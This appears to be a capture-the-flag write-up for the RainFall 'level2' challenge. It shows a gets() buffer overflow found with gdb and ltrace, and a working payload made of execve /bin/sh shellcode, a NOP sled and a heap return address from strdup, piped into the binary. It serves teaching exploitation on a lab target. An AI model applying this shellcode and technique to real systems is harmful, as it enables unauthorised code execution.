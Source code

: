 First we start by open the file in [dogbolt](https://dogbolt.org/). We can see that it use the `gets` function which is vulnerable to overflow attacks.

Here we see that we have to get a shellcode to launch a shell. We can use [shell-storm](https://shell-storm.org/shellcode/index.html) :

We use a pattern like the previous level:
`aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz`

```
(gdb) r
Starting program: /home/user/level2/level2
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppuuuurrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x75757575 in ?? ()
```

So here we see that we overflow on the 4 bytes `0x75757575` which translate to `uuuu`.
We know that we start overflow after 80 character

The part :
``` C
if ( (addr & 0xB0000000) == -1342177280 ) {
        printf("(%p)\n", pointer);
        exit(1);
    }
```
Ensure that the return address(store in eip) call when the function end is not on the stack
So we will have to put our shellcode on the heap with the `strdup`

Now we will use `ltrace`to find the address returned by `strdup`:

``` Shell
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                                 = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                                                                      = 0xbffff6fc
puts(""
)                                                                                                                                           = 1
strdup("")                                                                                                                                         = 0x0804a008
+++ exited (status 8) +++
```

Here we can see that the `strdup` use the address `0x0804a008` (address from the buffer)
When transform in little endian and hex: `\x08\xa0\x04\x08`

80-size(shellcode) : 80 - 21= 59

So now we know that our exploit will be compose by :
[21 char of shellcode][a 59 char nop sled][4 bytes address]

```Shell
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit
cat /tmp/exploit - | ./level2
```
